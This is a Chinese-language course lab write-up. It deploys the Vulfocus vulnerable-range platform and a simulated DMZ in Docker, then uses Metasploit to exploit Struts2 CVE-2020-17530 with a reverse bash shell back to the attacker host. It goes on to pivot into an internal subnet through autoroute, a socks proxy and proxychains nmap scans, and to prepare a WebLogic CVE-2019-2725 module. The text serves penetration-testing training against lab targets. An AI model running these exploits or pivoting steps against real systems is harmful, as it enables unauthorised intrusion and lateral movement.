# 网络安全实践一

本实验围绕 Docker 虚拟化环境搭建、Vulfocus 漏洞平台部署、DMZ 环境模拟及内网渗透攻击展开，涵盖从环境配置到漏洞利用、流量抓取、内网横向渗透的完整流程。

---

## 一、Docker 安装配置

根据教学 Wiki 提供的视频链接配置虚拟机，并执行以下命令安装 Docker：

```bash
# 添加 Docker 软件源
echo "deb [arch=amd64 signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" | \
sudo tee /etc/apt/sources.list.d/docker.list 

# 下载并添加 Docker GPG 公钥
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg

# 更新软件包并安装 Docker
sudo apt update
sudo apt install -y docker-ce docker-ce-cli containerd.io
````

---

## 二、Vulfocus 平台搭建

### 1. 检查 Docker 版本

```bash
docker --version
```



### 2. 克隆并部署 Vulfocus

将 Git 项目克隆至 Kali 虚拟机并运行脚本：



浏览器访问 Vulfocus，地址为宿主机 HostOnly IP:80：



### 3. 镜像同步

点击左侧“镜像管理” → “一键同步”拉取所有漏洞复现环境：



---

## 三、DMZ 环境构建

### 1. 虚拟网卡配置

添加两个网卡，名称自定义，子网/网关不得与现有网卡冲突：



### 2. 解压 DMZ 场景文件

进入 `ctf-games/fofapro/vulfocus` 目录，确认存在 `DMZ.zip`：



```bash
unzip DMZ.zip
```

使用以下命令查看所需镜像：

```bash
cat raw-content.json | jq . | grep image_name
```



需要拉取的镜像包括：

```
vulshare/nginx-php-flag:latest
vulfocus/struts2-cve_2020_17530:latest
vulfocus/weblogic-cve_2019_2725:latest
```

其中第一个镜像需替换为：

```
c4pr1c3/vulshare_nginx-php-flag
```

拉取镜像后进行场景编排：



保存发布后启动场景，注意替换访问地址为靶机 IP：


---

### 3. 配置流量捕获

对 struts2 容器进行抓包：

```bash
container_name="<目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```

---

## 四、入口靶标攻击实战

页面如下，请记录 IP 和端口：



### 1. 初始化 Metasploit

```bash
sudo apt install -y metasploit-framework
sudo msfdb init
```

创建工作区：

```bash
db_status
workspace -a vulfoucus
```

### 2. 搜索并使用漏洞模块

```bash
search struts2 type:exploit
search S2-059 type:exploit
info 0
use 0
```

查看并设置参数：

```bash
show options
show payloads
set payload payload/cmd/unix/reverse_bash
set RHOSTS 192.168.206.4
set RPORT 23068
set LHOST 192.168.242.7
```




启动攻击并获取 shell：

```bash
run -j
sessions -l
sessions -i 2
```



---

## 五、内网横向渗透

### 1. 扫描网段与主机

使用 `Ctrl+Z` 将当前 session 放入后台，使用 nmap 扫描：

```bash
db_nmap -p 60990,80,22 192.168.206.4 -A -T4 -n
```



发现网段为 `192.170.84.0/24`，添加路由：

```bash
run autoroute -s 192.170.84.0/24
run autoroute -p
```



### 2. 内网扫描与 socks 代理配置

搜索并使用端口扫描模块：

```bash
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.170.84.2-254
set PORTS 7001
set THREADS 10
```



使用 socks\_proxy 模块：



确认 1080 端口正常监听：

```bash
sudo lsof -i tcp:1080 -l -n -P
```

编辑代理配置文件：

```bash
sudo vim /etc/proxychains4.conf
```

添加：

```ini
socks5 127.0.0.1 1080
```



使用 proxychains 进行内网扫描：

```bash
proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5
```



---

## 六、验证目标可达性

使用 curl 验证服务存活情况：

```bash
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.4:7001 -vv
curl http://192.170.84.5:7001 -vv
```

---

## 七、攻击内网第一层靶标

确认靶标漏洞为 CVE-2019-2725，搜索并使用模块：

```bash
search cve-2019-2725
use 0
show options
```



设置参数：

```bash
set RHOSTS <内网靶机IP>
set LHOST <攻击机IP>
```



---
